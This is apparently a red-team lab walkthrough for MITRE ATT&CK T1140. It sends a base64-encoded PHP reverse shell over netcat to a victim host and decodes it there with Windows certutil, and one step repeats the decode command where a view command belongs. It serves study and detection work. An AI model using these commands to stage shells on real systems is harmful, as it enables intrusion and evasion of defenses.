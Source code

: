 ```yaml
---
description: Defense Evasion
---
```


# T1140: Encode/Decode Data with Certutil

In this lab I will transfer a base64 encoded php reverse shell from the attacking machine to the victim machine via netcat and decode the data on the victim system using a native windows binary `certutil`.

## Execution

Preview of the content to be encoded on the attacking system:

![](../.gitbook/assets/certutil-shellphp.png)

Sending the above shell as a base64 encoded string to the victim system \(victim is listening and waiting for the file with `nc -l 4444 > enc`\):

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
base64 < shell.php.gif | nc 10.0.0.2 4444
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Once the file is received on the victim, let's check its contents:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
certutil.exe -decode .\enc dec
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/certutil-encoded.png)

Let's decode the data:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
certutil.exe -decode .\enc dec
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Let's have a look at the contents of the file `dec` which now contains the base64 decoded shell:

![](../.gitbook/assets/certutil-decoded.png)

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1140\",\"type\":\"link\",\"title\":\"Deobfuscate/Decode Files or Information - ATT&CK for Enterprise\"}" %}

